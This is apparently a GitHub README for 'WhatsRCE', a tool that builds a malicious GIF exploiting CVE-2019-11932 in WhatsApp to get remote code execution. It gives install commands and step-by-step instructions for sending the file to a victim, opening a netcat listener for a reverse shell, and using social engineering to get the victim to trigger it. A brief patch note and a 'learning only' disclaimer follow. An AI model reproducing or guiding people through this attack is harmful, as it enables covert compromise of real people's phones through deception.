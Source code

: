 # WhatsRCE
This is a Automated Generate Payload for CVE-2019-11932 (WhatsApp Remote Code Execution)

1. Auto install GCC (no harm command, you can see this is open-source)
2. Saving to **.GIF** file

## How To Use ?
```
sudo apt install git
git clone https://github.com/KeepWannabe/WhatsRCE
cd WhatsRCE && bash start.sh
```

## How Get Shell ?

1. You just send the **.GIF** file to victim user **AS A DOCUMENT NOT IMAGES**
2. And set the nc / netcat to port you set on the WhatsRCE tools {**nc -lnvp your_port**}
3. You can use the Social Engineering attack so that victims can be attracted to launch this exploit
4. tell the victim to open the gallery via whatsapp and send the victim to send any photos (no need, it's just got to the gallery no problem) after that a few seconds later you will receive a shell connection from the victim

or just watch this 

**DEMO VIDEO**
https://drive.google.com/file/d/1T-v5XG8yQuiPojeMpOAG6UGr2TYpocIj/view
**if the above link is not accessible**
https://drive.google.com/open?id=1X9nBlf5oj5ef2UoYGOfusjxAiow8nKEK


## How To Avoid This Attack?

1. Update your whatsapp to the latest version **(Patched on Version 2.19.244)**
2. how to receive any file including audio images and others from people we don't know

### Thanks to [awakened1712](https://awakened1712.github.io/) - [Edo Maland](https://github.com/Screetsec/) - [IndoXploit](https://indoxploit.or.id)

# **This is only for learning, consequences etc. if you use it for a crime I am not responsible!**
